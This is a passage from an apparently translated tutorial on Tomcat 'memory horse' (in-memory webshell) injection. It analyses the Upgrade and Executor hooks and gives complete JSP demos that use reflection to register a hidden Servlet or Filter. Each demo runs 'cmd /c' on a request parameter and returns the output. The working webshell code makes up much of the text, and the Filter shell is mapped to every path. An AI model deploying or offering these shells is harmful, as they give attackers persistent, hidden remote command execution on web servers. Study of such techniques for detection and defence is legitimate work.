import org.apache.coyote.Response;
import org.apache.coyote.http11.upgrade.InternalHttpUpgradeHandler;
import org.apache.tomcat.util.net.SocketWrapperBase;
import java.lang.reflect.Field;
import java.nio.ByteBuffer;

@WebServlet("/evil")
public class TestUpgrade extends HttpServlet {

    static class MyUpgrade implements UpgradeProtocol {
        @Override
        public String getHttpUpgradeName(boolean b) {
            return null;
        }

        @Override
        public byte[] getAlpnIdentifier() {
            return new byte[0];
        }

        @Override
        public String getAlpnName() {
            return null;
        }

        @Override
        public Processor getProcessor(SocketWrapperBase<?> socketWrapperBase, Adapter adapter) {
            return null;
        }

        @Override
        public InternalHttpUpgradeHandler getInternalUpgradeHandler(SocketWrapperBase<?> socketWrapperBase, Adapter adapter, org.apache.coyote.Request request) {
            return null;
        }

        @Override
        public boolean accept(org.apache.coyote.Request request) {
            try {
                Field response = org.apache.coyote.Request.class.getDeclaredField("response");
                response.setAccessible(true);
                Response resp = (Response) response.get(request);
                resp.doWrite(ByteBuffer.wrap("Hello, this my test Upgrade!".getBytes()));
            } catch (Exception ignored) {}
            return false;
        }
    }
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) {
        try {
            RequestFacade rf = (RequestFacade) req;
            Field requestField = RequestFacade.class.getDeclaredField("request");
            requestField.setAccessible(true);
            Request request1 = (Request) requestField.get(rf);
            new MyUpgrade().accept(request1.getCoyoteRequest());
        } catch (Exception ignored) {}
    }
}
```

The effects are as follows:



### 2.14.2 Tomcat Upgrade memory horse introduction and related code debugging analysis

This part mainly refers to the article of Master Sndav (the original address is `https://tttang.com/archive/1709/`, but the image cannot be displayed due to the lapse of the image link. We can visit the following address to view: `https://web.archive.org/web/20220823040415/https://tttang.com/archive/1709/`) and the article of Master p4d0rn (`https://p4d0rn.gitbook.io/java/memory-shell/tomcat-middlewares/upgrade`).

It is somewhat similar to the Spring Interceptor type memory horse mentioned earlier. During the penetration process, although we enter the memory horse, because the original Filter contains authentication or other functions, our memory horse may be inaccessible, or because of the reverse proxy, we cannot find the corresponding path. This requires us to enter the memory horse before we reach the Filter step.

Here, I quote a `Tomcat` architecture diagram in the Ma Ge Byte article (`https://blog.nowcoder.net/n/0c4b545949344aa0b313f22df9ac2c09`):


It can be clearly seen that there are two modules `Executor` and `Processor` before this. The content of this section mainly discusses the latter, and we will discuss the former in the next section.

This part requires more complete knowledge about `Tomcat` and is no longer satisfied with the previous four containers. Regarding the learning of these basic knowledge, it is highly recommended to read the articles of Ma Ge Bytes. The writing is indeed very good:

> https://blog.nowcoder.net/n/0c4b545949344aa0b313f22df9ac2c09

In fact, during the previous process of learning "Tomcat Valve", I followed all the code step by step, and I also mentioned "Http11Processor". Let’s take the project at that time as an example.

We still set a breakpoint on the line `StandardHostValve.java`:


From the point where I pointed out by the red arrow above, you can see that the `process` function is called. The specific call location is `org.apache.coyote.AbstractProcessorLight#process`. Let's take a look with you:


You can see that if the current state of `SocketWrapperBase` is `OPEN_READ`, the corresponding `processor` will be called to process (the position of the `process` call in the second picture can be clicked in to see the next `process` of the `process` in the lower left corner of the first picture):


Let's continue with the `step into` method here `service`:


Continue to `step over`, you can see here that checks whether the `Connection` header is `upgrade`. This can be seen through the `step into``isConnectionToken` method:


Then do two things: one is to call the `getUpgradeProtocol` method to get the `UpgradeProtocol` from `httpUpgradeProtocols` according to `upgradeName`; the other is to call the `accept` method of the `UpgradeProtocol` object:


At this point, we seem to be able to establish a conjecture. Similar to the memory horse introduced earlier, we just need to construct a malicious `UpgradeProtocol` and insert it into `httpUpgradeProtocols`.

Since `httpUpgradeProtocols` is a `hashmap`, then if you add it, you must use the `put` method. Just search for `httpUpgradeProtocols.put`:


We set a breakpoint on this line and then debugged and found that before we executed the `curl -H "Connection: Upgrade" -H "Upgrade: hello" http://localhost:8080` command, the breakpoint arrived, that is, the `httpUpgradeProtocols.put` happened when `tomcat` was started.

In this way, the idea is more specific: find `httpUpgradeProtocols` in reflection, insert the malicious upgradeProtocol` into it to form an `upgrade` memory horse, and the idea is exactly the same as before.

Then now only the last problem needs to be solved - how to find the location of `httpUpgradeProtocols`. We open the `demo` of the `Tomcat Upgrade` built with `tomcat`, set the breakpoint at the following location, and then execute the command `curl -H "Connection: Upgrade" -H "Upgrade: hello" http://localhost:8080/evil` to enter the breakpoint debugging::


`step over` can see the `request1` property below in one step:


Then I found `httpUpgradeProtocols` in the `protocolHandler` of the `connector` in `request1`:


Next is to reflect step by step。

## 2.15 Introduction to Tomcat Executor Memory Horse and Analysis of Ideas for Input Memory Horse

### 2.15.1 

Create a new project, configure the `tomcat` running environment and `web` directory, and then create the following two files. The first one is TestExecutor.java:

```java
package org.example;

import java.io.IOException;
import java.util.concurrent.SynchronousQueue;
import java.util.concurrent.ThreadPoolExecutor;
import java.util.concurrent.TimeUnit;

public class TestExecutor extends ThreadPoolExecutor {

    public TestExecutor() {
        super(0, Integer.MAX_VALUE, 60L, TimeUnit.SECONDS, new SynchronousQueue<>());
    }

    @Override
    public void execute(Runnable command) {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        super.execute(command);
    }
}
```

The second is `TestServlet.java`:

```java
package org.example;

import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

@WebServlet("/test")
public class TestServlet extends HttpServlet {
    TestExecutor executor = new TestExecutor();

    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) {
        executor.execute(() -> {
            System.out.println("Execute method triggered by accessing /test");
        });
    }
}
```

Then visit the `test` route corresponding to the `context` of the browser:


### 2.15.2 Tomcat Executor memory horse introduction and code debugging analysis

In Section 2.14.2, we talked about the fact that you can enter the memory horse in the `Executor` module, and this section will analyze the specific process. This section mainly refers to the following four articles：

> https://p4d0rn.gitbook.io/java/memory-shell/tomcat-middlewares/executor
>
> https://cjlusec.ldxk.edu.cn/2023/02/15/Executor/
>
> https://xz.aliyun.com/t/11593
>
> https://xz.aliyun.com/t/11613

In the basic article I mentioned before about the tomcat architecture (`https://blog.nowcoder.net/n/0c4b545949344aa0b313f22df9ac2c09`), it describes the `EndPoint` component in the `ProtocolHandler` component in the component. If you haven't read it in full before, you can check it out again. The picture inside is very good, I'll quote it here:


#### 2.15.2.1 Endpoint's five components

As shown in the following table:

|       Components        |                     describe                     |
| :---------------: | :------------------------------------------: |
|   `LimitLatch`    |          Connect to the controller to control the maximum number of connections          |
|    `Acceptor`     |  Receive a new connection and return the `Channel` object to `Poller`   |
|     `Poller`      | Monitor the `Channel` status, similar to the `Selector` in `NIO` |
| `SocketProcessor` |       Encapsulated task class, handles specific operations of connection       |
|    `Executor`     |     `Tomcat` custom thread pool for executing task classes     |

#### 2.15.2.2 Endpoint Classification

The specific implementation classes of the `EndPoint` interface are `AbstractEndpoint`, and the specific implementation classes of `AprEndpoint`, `Nio2Endpoint`, and `NioEndpoint`:


|    Endpoint    |                Brief explanation                 |              Tomcat source code location              |
| :------------: | :-------------------------------------: | :---------------------------------------: |
| `AprEndpoint`  | Use `APR` mode to solve asynchronous `IO` problem and improve performance | `org.apache.tomcat.util.net.AprEndpoint`  |
| `Nio2Endpoint` |          Implementation of asynchronous `IO` using code           | `org.apache.tomcat.util.net.Nio2Endpoint` |
| `NioEndpoint`  |      Implementing non-blocking `IO` using `Java NIO`       | `org.apache.tomcat.util.net.NioEndpoint`  |

The `tomcat` mentioned above refers to the following `pom` dependencies:

```xml
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-coyote</artifactId>
    <version>9.0.83</version>
</dependency>
```



The default startup of `Tomcat` is started with `NioEndpoint`. It is the default module in `Tomcat` that is responsible for network communication functions using `NIO`. It is responsible for listening and processing request connections, and passing the parsed byte stream to `Processor` for subsequent processing.

#### 2.15.2.3 Executor related code analysis

Click `Executor.java` to see a `execute` method:


`Ctrl+Alt+F7` trace, you can see that the `Executor` interface has related implementations in the abstract class `AbstractEndpoint`:


Search for `executor` in `AbstractEndpoint.java`, and then you can see two functions: `setExecutor` and `getExecutor`:


Check the call location of the `getExecutor` function and find that there is a key call in the file:


Follow the past:


From the following article we can know the role of `processSocket` in the operation of `Tomcat`:

> https://blog.51cto.com/u_8958931/2817418

Then we have an idea at this time. If I can control the `executor`, I will turn the original `executor` into the `executor` I maliciously created `executor`, and then use the `executor.execute` (`org.apache.tomcat.util.threads.ThreadPoolExecutor#execute(java.lang.Runnable)`) to load our malicious logic once executed.

But now there is a very headache problem, that is, the standard ServletRequest needs to be encapsulated by Adapter before it can be obtained. It is still in the Endpoint stage, and the ServletRequest and ServletResponse encapsulated later cannot be directly obtained.

So what should I do? Based on the knowledge we have learned before, it is easy to think of this article written by Master `c0ny1` when we first came into contact with `java-object-researcher`:

> 
>
> http://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/
>
> 

Then try it. After importing the `jar` package to the project, we modify the `TestServlet.java` code as follows:

```java
package org.example;

import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import me.gv7.tools.josearcher.entity.Blacklist;
import me.gv7.tools.josearcher.entity.Keyword;
import me.gv7.tools.josearcher.searcher.SearchRequstByBFS;
import java.util.ArrayList;
import java.util.List;

@WebServlet("/test")
public class TestServlet extends HttpServlet {
    TestExecutor executor = new TestExecutor();

    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) {
        executor.execute(() -> {
            System.out.println("Execute method triggered by accessing /test");
        });
        List<Keyword> keys = new ArrayList<>();
        keys.add(new Keyword.Builder().setField_type("request").build());
        List<Blacklist> blacklists = new ArrayList<>();
        blacklists.add(new Blacklist.Builder().setField_type("java.io.File").build());
        SearchRequstByBFS searcher = new SearchRequstByBFS(Thread.currentThread(),keys);
        searcher.setBlacklists(blacklists);
        searcher.setIs_debug(true);
        searcher.setMax_search_depth(10);
        searcher.setReport_save_path("D:\\javaSecEnv\\apache-tomcat-9.0.85\\bin");
        searcher.searchObject();
    }
}
```

Then access the route and search for `request=` in the console output:


I directly searched for this link:

```
TargetObject = {org.apache.tomcat.util.threads.TaskThread} 
  ---> group = {java.lang.ThreadGroup} 
   ---> threads = {class [Ljava.lang.Thread;} 
    ---> [15] = {java.lang.Thread} 
     ---> target = {org.apache.tomcat.util.net.NioEndpoint$Poller} 
      ---> this$0 = {org.apache.tomcat.util.net.NioEndpoint} 
       ---> connections = {java.util.Map<U, org.apache.tomcat.util.net.SocketWrapperBase<S>>} 
        ---> [java.nio.channels.SocketChannel[connected local=/0:0:0:0:0:0:0:1:8080 remote=/0:0:0:0:0:0:0:1:10770]] = {org.apache.tomcat.util.net.NioEndpoint$NioSocketWrapper} 
         ---> socket = {org.apache.tomcat.util.net.NioChannel} 
          ---> appReadBufHandler = {org.apache.coyote.http11.Http11InputBuffer} 
            ---> request = {org.apache.coyote.Request}
```

Let’s verify that by setting a breakpoint here in `org/apache/tomcat/util/net/NioEndpoint.java`, you can find the location of `request` here:


Click on the `byteBuffer` here and you can see that it is a byte array. Right-click to find `View as... String` to become a string:


Click the `View Text` I pointed out above to clearly see the specific content:


This means that we can pass the command as part of the `header` and then pass the result as part of the `header`.

# 3. Traditional Web-type memory horse

## 3.1 Servlet memory horse

### 3.1.1 Simple servlet memory horse demo writing

Based on our analysis in Section 2.3 above, we can draw the following conclusions:

If we want to write a `Servlet` memory horse, we need to go through the following steps:

- Find `StandardContext`
- Inherit and write a malicious `servlet`
- Create a `Wapper` object
- Set the value of `LoadOnStartUp` of `Servlet`
- Set `Name` of `Servlet`
- Set the `Class` corresponding to `Servlet`
- Add `Servlet` to `children` of `context`
- Map the `url` path and `servlet` class

From the above conclusions, we can write the following memory horse `demo`:

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="javax.servlet.Servlet" %>
<%@ page import="javax.servlet.ServletConfig" %>
<%@ page import="javax.servlet.ServletContext" %>
<%@ page import="javax.servlet.ServletRequest" %>
<%@ page import="javax.servlet.ServletResponse" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<html>
<head>
    <title>MemoryShellInjectDemo</title>
</head>
<body>
<%
    try {
        ServletContext servletContext = request.getSession().getServletContext();
        Field appctx = servletContext.getClass().getDeclaredField("context");
        appctx.setAccessible(true);
        ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
        Field stdctx = applicationContext.getClass().getDeclaredField("context");
        stdctx.setAccessible(true);
        StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
        String servletURL = "/" + getRandomString();
        String servletName = "Servlet" + getRandomString();
        Servlet servlet = new Servlet() {
            @Override
            public void init(ServletConfig servletConfig) {}
            @Override
            public ServletConfig getServletConfig() {
                return null;
            }
            @Override
            public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws IOException {
                String cmd = servletRequest.getParameter("cmd");
                {
                    InputStream in = Runtime.getRuntime().exec("cmd /c " + cmd).getInputStream();
                    Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
                    String output = s.hasNext() ? s.next() : "";
                    servletResponse.setCharacterEncoding("GBK");
                    PrintWriter out = servletResponse.getWriter();
                    out.println(output);
                    out.flush();
                    out.close();
                }
            }
            @Override
            public String getServletInfo() {
                return null;
            }
            @Override
            public void destroy() {
            }
        };
        Wrapper wrapper = standardContext.createWrapper();
        wrapper.setName(servletName);
        wrapper.setServlet(servlet);
        wrapper.setServletClass(servlet.getClass().getName());
        wrapper.setLoadOnStartup(1);
        standardContext.addChild(wrapper);
        standardContext.addServletMappingDecoded(servletURL, servletName);
        response.getWriter().write("[+] Success!!!<br><br>[*] ServletURL:&nbsp;&nbsp;&nbsp;&nbsp;" + servletURL + "<br><br>[*] ServletName:&nbsp;&nbsp;&nbsp;&nbsp;" + servletName + "<br><br>[*] shellURL:&nbsp;&nbsp;&nbsp;&nbsp;http://localhost:8080/test" + servletURL + "?cmd=echo Hello world！");
    } catch (Exception e) {
        String errorMessage = e.getMessage();
        response.setCharacterEncoding("UTF-8");
        PrintWriter outError = response.getWriter();
        outError.println("Error: " + errorMessage);
        outError.flush();
        outError.close();
    }
%>
</body>
</html>
<%!
    private String getRandomString() {
        String characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ";
        StringBuilder randomString = new StringBuilder();
        for (int i = 0; i < 8; i++) {
            int index = (int) (Math.random() * characters.length());
            randomString.append(characters.charAt(index));
        }
        return randomString.toString();
    }
%>
```


Access, execute any command:


### 3.1.2 servlet memory horse demo code analysis

Complete the first task first: find `StandardContext`, the code is as follows:

```java
ServletContext servletContext = request.getSession().getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
```

First of all, you have to know what `Field` is. In Java, the `Field` class belongs to the `java.lang.reflect` package, which represents the member variables (fields) of the class. The `Field` class provides methods to access and manipulate fields of the class, including obtaining information such as the name, type, modifier, etc., as well as obtaining or setting the value of the field on the instance. In this way, we can dynamically obtain the information of the class at runtime, bypass some access modifier restrictions, access and operate private members of the class.

So the meaning of the above code is: Get the ServletContext object from the current `HttpServletRequest`, and then use the reflection mechanism to obtain the private field named `context` in the `ServletContext` class, and assign it to the `Field` variable `appctx`, and set the attribute of this variable to be accessible, so that we can obtain its value through reflection in the future. Then, the value of the private field `context` of the `ServletContext` object is obtained by reflection and casting its type to `ApplicationContext`. Next, we continue to use the reflection mechanism to obtain the private field named `context` in the `ApplicationContext` class, and assign it to the variable `stdctx` of type `Field`, and set it to accessible. Finally, we obtain the value of the private field `context` of the `ApplicationContext` object through reflection, and cast its type to `StandardContext`. At this point, we successfully found `StandardContext`.

Then complete the second task: inherit and write a malicious `servlet` with the following code:

```java
Servlet servlet = new Servlet() {
    @Override
    public void init(ServletConfig servletConfig) {}
    @Override
    public ServletConfig getServletConfig() {
        return null;
    }
    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws IOException {
        String cmd = servletRequest.getParameter("cmd");
        {
            InputStream in = Runtime.getRuntime().exec("cmd /c " + cmd).getInputStream();
            Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
            String output = s.hasNext() ? s.next() : "";
            servletResponse.setCharacterEncoding("GBK");
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
    }
    @Override
    public String getServletInfo() {
        return null;
    }
    @Override
    public void destroy() {
    }
};
```

As you can see, in addition to the `service` code, we also wrote the `init`, `getServletConfig`, `getServletInfo` and `destroy` methods, but they are not used. They either return `null` or leave it blank directly without writing. So why do we still write these four methods?

Then let's try to see what happens after commenting out:


Report an error:`Class 'Anonymous class derived from Servlet' must implement abstract method 'init(ServletConfig)' in 'Servlet'`。

We directly follow up on the `Servlet` class and you can see that it is an interface:


It turns out that in `Java`, methods in interfaces are abstract by default, unless the default method is used in `Java 8` and later versions. And, if a class implements an interface, it must provide a concrete implementation of all abstract methods in that interface, which is why we have to write the above four methods.

Here I use `cmd /c` to implement the command that can be executed with spaces, such as the `echo world I gave in `3.1.1`, hello! `;For the Linux system, that is `/bin/sh -c`; then it is about the situation where the input or return result is in Chinese. We need to set the encoding to `GBK`, of course, this needs to be treated in detail in the specific situation.

Next we need to complete the next six tasks: Create a `Wapper` object, set the value of `LoadOnStartUp` of `Servlet`, set the `Name` of `Servlet`, set the `Class` corresponding to `Servlet`, add `Servlet` to the `children` of `context`, map the `url` path and `servlet` class, the code is as follows:

```java
Wrapper wrapper = standardContext.createWrapper();
wrapper.setName(servletName);
wrapper.setServlet(servlet);
wrapper.setServletClass(servlet.getClass().getName());
wrapper.setLoadOnStartup(1);
standardContext.addChild(wrapper);
standardContext.addServletMappingDecoded(servletURL, servletName);
```

The previous steps have been mentioned before. This `standardContext.addChild(wrapper);` is to enable our custom `servlet` to become part of the `Web` application; then `standardContext.addServletMappingDecoded(servletURL, servletName);` can also be written in the following form:

```java
// To introduce：<%@ page import="org.apache.catalina.core.ApplicationServletRegistration" %>
ServletRegistration.Dynamic dynamic = new ApplicationServletRegistration(wrapper, standardContext);
dynamic.addMapping(servletURL);
```


### 3.1.3 Understanding of StandardContext, ApplicationContext, ServletContext

Please refer to the articles of Master `Skay` and Master `yzddmr6`. They wrote very detailedly. The link is posted here:

> https://yzddmr6.com/posts/tomcat-context/
>
> https://mp.weixin.qq.com/s/BrbkTiCuX4lNEir3y24lew

A summary of the quote from Master `Skay`:

`ServletContext` is the `Servlet` specification; `org.apache.catalina.core.ApplicationContext` is an implementation of `ServletContext`; `org.apache.catalina.Context` interface is a container in the `tomcat` container structure, representing a `web` application, unique to `tomcat`. Its standard implementation is `org.apache.catalina.core.StandardContext`, which is an important part of the `tomcat` container.

Regarding the method of obtaining `StandardContext`, in addition to the method of converting our `ServletContext` to `StandardContext` to obtain the `context`, there are two other methods:

> 1. Get StandardContext from the thread, refer to the article of Master Litch1: https://mp.weixin.qq.com/s/O9Qy0xMen8ufc3ecC33z6A
> 2. Get it from MBean, refer to Master 54simo's article: https://scriptboy.cn/p/tomcat-filter-inject/, but this master's blog has been closed. We can read the archive: https://web.archive.org/web/20211027223514/https://scriptboy.cn/p/tomcat-filter-inject/
> 3. Get it from the context of spring runtime, refer to the article by LandGrey@Qianxin Stargazing Laboratory: https://www.anquanke.com/post/id/198886

I will add these two methods if I have time later.

## 3.2 Filter memory horse

### 3.2.1 Simple filter memory horse demo writing

Based on what we discussed in Section 2.6 above, we can draw the following conclusions:

If we want to write a `Filter` memory horse, we need to go through the following steps:

> reference: https://longlone.top/安全/java/java安全/内存马/Tomcat-Filter型/

- Get `StandardContext`;
- Inherit and write a malicious `filter`;
- Instantiate a `FilterDef` class, wrap `filter` and store it in `StandardContext.filterDefs`;
- Instantiate a `FilterMap` class, correspond to our `Filter` and `urlpattern`, and use `addFilterMapBefore` to store it in `StandardContext.filterMaps`;
- Get the `filterConfigs` through reflection, instantiate a `FilterConfig` (`ApplicationFilterConfig`) class, pass in `StandardContext` and `filterDefs`, and store it in `filterConfig`.

> reference: https://tyaoo.github.io/2021/12/06/Tomcat内存马/

It should be noted that you must first modify `filterDef` and then modify `filterMap`, otherwise an exception that cannot be found in `filterName` will be thrown.

From the above conclusions, we can write the following memory horse `demo`:

```jsp
<%@ page import="java.lang.reflect.*" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.io.*" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.util.List" %>
<%@ page import="java.util.ArrayList" %>
<%
    ServletContext servletContext = request.getSession().getServletContext();
    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
    Field filterConfigsField = standardContext.getClass().getDeclaredField("filterConfigs");
    filterConfigsField.setAccessible(true);
    Map filterConfigs = (Map) filterConfigsField.get(standardContext);
    String filterName = getRandomString();
    if (filterConfigs.get(filterName) == null) {
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) {
            }

            @Override
            public void destroy() {
            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest httpServletRequest = (HttpServletRequest) servletRequest;
                String cmd = httpServletRequest.getParameter("cmd");
                {
                    InputStream in = Runtime.getRuntime().exec("cmd /c " + cmd).getInputStream();
                    Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
                    String output = s.hasNext() ? s.next() : "";
                    servletResponse.setCharacterEncoding("GBK");
                    PrintWriter out = servletResponse.getWriter();
                    out.println(output);
                    out.flush();
                    out.close();
                }
                filterChain.doFilter(servletRequest, servletResponse);
            }
        };
        FilterDef filterDef = new FilterDef();
        filterDef.setFilterName(filterName);
        filterDef.setFilterClass(filter.getClass().getName());
        filterDef.setFilter(filter);
        standardContext.addFilterDef(filterDef);
        FilterMap filterMap = new FilterMap();
        filterMap.setFilterName(filterName);
        filterMap.addURLPattern("/*");
        filterMap.setDispatcher(DispatcherType.REQUEST.name());
        standardContext.addFilterMapBefore(filterMap);
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
        filterConfigs.put(filterName, applicationFilterConfig);
        out.print("[+]&nbsp;&nbsp;&nbsp;&nbsp;Malicious filter injection successful!<br>[+]&nbsp;&nbsp;&nbsp;&nbsp;Filter name: " + filterName + "<br>[+]&nbsp;&nbsp;&nbsp;&nbsp;Below is a list displaying filter names and their corresponding URL patterns:");
        out.println("<table border='1'>");
        out.println("<tr><th>Filter Name</th><th>URL Patterns</th></tr>");
        List<String[]> allUrlPatterns = new ArrayList<>();
        for (Object filterConfigObj : filterConfigs.values()) {
            if (filterConfigObj instanceof ApplicationFilterConfig) {
                ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) filterConfigObj;
                String filtername = filterConfig.getFilterName();
                FilterDef filterdef = standardContext.findFilterDef(filtername);
                if (filterdef != null) {
                    FilterMap[] filterMaps = standardContext.findFilterMaps();
                    for (FilterMap filtermap : filterMaps) {
                        if (filtermap.getFilterName().equals(filtername)) {
                            String[] urlPatterns = filtermap.getURLPatterns();
                            allUrlPatterns.add(urlPatterns); // Add the urlPatterns of the current iteration to the list

                            out.println("<tr><td>" + filtername + "</td>");
                            out.println("<td>" + String.join(", ", urlPatterns) + "</td></tr>");
                        }
                    }
                }
            }
        }
        out.println("</table>");
        for (String[] urlPatterns : allUrlPatterns) {
            for (String pattern : urlPatterns) {
                if (!pattern.equals("/*")) {
                    out.println("[+]&nbsp;&nbsp;&nbsp;&nbsp;shell: http://localhost:8080/test" + pattern + "?cmd=ipconfig<br>");
                }
            }
        }
    }
%>
<%!
    private String getRandomString() {
        String characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ";
        StringBuilder randomString = new StringBuilder();
        for (int i = 0; i < 8; i++) {
            int index = (int) (Math.random() * characters.length());
            randomString.append(characters.charAt(index));
        }
        return randomString.toString();
    }
%>
```

The effects are as follows:


Similarly, here I also adapted to Chinese encoding and output of some prompt statements.

### 3.2.2 servlet memory horse demo code analysis

Let's analyze it separately, first look at this code:

```java
ServletContext servletContext = request.getSession().getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
Field filterConfigsField = standardContext.getClass().getDeclaredField("filterConfigs");
filterConfigsField.setAccessible(true);
Map filterConfigs = (Map) filterConfigsField.get(standardContext);
```

First, get the current servlet context and get its private field `context`, and then set it accessible, so that the value of the `context` field can be reflected by reflecting the value of the `context` field. This value is an ApplicationContext` object; then get the private field `context` of the `ApplicationContext` and set it accessible, and then get the value of the `Context` field of the `ApplicationContext`, which is a `StandardContext` object; finally, get the private field `filterConfigs` of the `StandardContext`, and then get the value of the `FilterConfigs` field of the `StandardContext` through reflection.

I won’t talk about the part of constructing anonymous classes in the middle, it is very similar to the previous Servlet. Just don’t forget the last `filterChain.doFilter`.

Then there is this code:

```java
FilterDef filterDef = new FilterDef();
filterDef.setFilterName(filterName);
filterDef.setFilterClass(filter.getClass().getName());
filterDef.setFilter(filter);
standardContext.addFilterDef(filterDef);
FilterMap filterMap = new FilterMap();
filterMap.setFilterName(filterName);
filterMap.addURLPattern("/*");
filterMap.setDispatcher(DispatcherType.REQUEST.name());
standardContext.addFilterMapBefore(filterMap);
Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
constructor.setAccessible(true);
